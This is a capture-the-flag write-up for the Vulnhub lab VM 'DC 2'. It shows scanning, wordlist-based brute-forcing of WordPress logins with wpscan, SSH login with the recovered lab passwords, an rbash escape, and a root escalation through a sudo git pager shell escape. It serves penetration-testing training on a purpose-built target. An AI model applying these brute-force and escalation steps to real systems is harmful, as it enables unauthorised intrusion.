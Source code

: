 ```yaml
---
layout: PostSimple
date: 2019-11-15
title:     "Vulnhub - DC 2"
tags: ['wordpress','easy','sudo','rbash']
categories: Vulnhub
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc2/1.1.png)
Today, We are going to pwn DC 2 by DCAU7 from Vulnhub


## Description

>Much like DC-1, DC-2 is another purposely built vulnerable lab for the purpose of gaining experience in the world of penetration testing.
As with the original DC-1, it's designed with beginners in mind.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
Just like with DC-1, there are five flags including the final flag.
And again, just like with DC-1, the flags are important for beginners, but not so important for those who have experience.
In short, the only flag that really counts, is the final flag.
For beginners, Google is your friend. Well, apart from all the privacy concerns etc etc.
I haven't explored all the ways to achieve root, as I scrapped the previous version I had been working on, and started completely fresh apart from the base OS install.

Download link : <https://www.vulnhub.com/entry/dc-2,311/>

Lets begin with our initial nmap scan

## Nmap Scan Results

```
PORT     STATE SERVICE
80/tcp   open  http
7744/tcp open  raqmon-pdu
MAC Address: 08:00:27:E2:25:6C (Oracle VirtualBox virtual NIC)
```

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Did not follow redirect to http://dc-2/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52:51:7b:6e:70:a4:33:7a:d2:4b:e1:0b:5a:0f:9e:d7 (DSA)
|   2048 59:11:d8:af:38:51:8f:41:a7:44:b3:28:03:80:99:42 (RSA)
|   256 df:18:1d:74:26:ce:c1:4f:6f:2f:c1:26:54:31:51:91 (ECDSA)
|_  256 d9:38:5f:99:7c:0d:64:7e:1d:46:f6:e9:7c:c6:37:17 (ED25519)
MAC Address: 08:00:27:E2:25:6C (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Since there is HTTP port open, I gonna start my Gobuster

## Gobuster Results

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.4
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/23 12:21:05 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/server-status (Status: 403)
/wp-admin (Status: 301)
/wp-includes (Status: 301)
/wp-content (Status: 301)
/index.php (Status: 200)
===============================================================
2019/11/23 12:21:07 Finished
===============================================================
```


Its a Wordpress site 
``Flag 1``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc2/1.png)

It gives us a hint that our usual wordlist wont help us in bruteforcing the password instead cewl this page.

> cewl - custom word list generator

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc2/2.png)

I created the wordlist now

We know its a wordpress site so we can start our wpscan to enumerate users

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc2/3-0.png)

> We have 3 users - admin,tom,jerry

## Bruteforcing the users

So lets start our bruteforce using the wordlist we created from cewl.

> wpscan --url http://dc-2/ -P pass.out -U admin
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc2/3.png)

> wpscan --url http://dc-2/ -P pass.out -U tom
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc2/4.png)

> wpscan --url http://dc-2/ -P pass.out -U jerry
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc2/5.png)

## Getting Shell

I logged in with jerry
Found ``Flag 2``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc2/6.png)




There is no templates or plugins so i tried login with the creds in ssh which is running in the port 7744

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc2/7.png)

I cant login with jerry but its working with ``tom:parturient``

I found flag3 but cant view them it shows some error called ``-rbash``<br/> 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc2/8.png)

While googling i came to know it because of problem in PATH variable.
So i copied my system PATH and export them, now its working perfectly!!

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc2/9.png)

>export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

According to ``Flag 3`` I came to know we can su , so i su to ``jerry:adipiscing``

and got ``Flag 4``

## Privilege Escalation

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc2/10.png)

This shows we can run ``git`` without root password

>https://gtfobins.github.io/gtfobins/git/

```
sudo git -p help config
!/bin/sh
```

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc2/11.png)
.<br/>
.<br/>
.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc2/12.png)

I did according to ``GTFObins``

Got ROOT and Final Flag!!!



 